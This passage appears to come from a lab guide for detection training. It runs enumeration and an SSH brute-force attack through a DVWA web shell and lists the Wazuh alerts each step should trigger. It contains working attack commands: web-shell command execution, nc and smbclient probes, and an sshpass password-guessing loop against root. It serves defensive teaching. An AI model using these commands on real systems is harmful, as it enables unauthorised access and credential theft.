 **Expected Detections:**

- Multiple ICMP requests from web server
- Internal port scanning activity
- Wazuh Rule: 40104 (Internal network scanning)
- Alert Level: High

#### 1.2 Service Enumeration

```bash
# SMB enumeration
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=smbclient -L //192.168.3.10 -N"

# SSH service detection
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=nc -zv 192.168.3.20 22"

# RDP detection
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=nc -zv 192.168.3.10 3389"
```

**Expected Detections:**

- Service enumeration attempts
- SMB connection attempts
- Wazuh Rule: 40105 (Service enumeration)
- Alert Level: Medium

### Phase 2: Credential Attacks (20 minutes)

#### 2.1 SSH Brute Force Attack

```bash
# Create wordlist
cat > passwords.txt << 'EOF'
admin
password
123456
root
administrator
lab123
password123
EOF

# Brute force SSH
for pass in $(cat passwords.txt); do
  curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=sshpass -p $pass ssh -o StrictHostKeyChecking=no root@192.168.3.20 'whoami'"
done
```

**Expected Detections:**

- Multiple SSH authentication failures
- Wazuh Rule: 5720 (SSH brute force attack)
- Alert Level: High
- Active Response: IP blocking
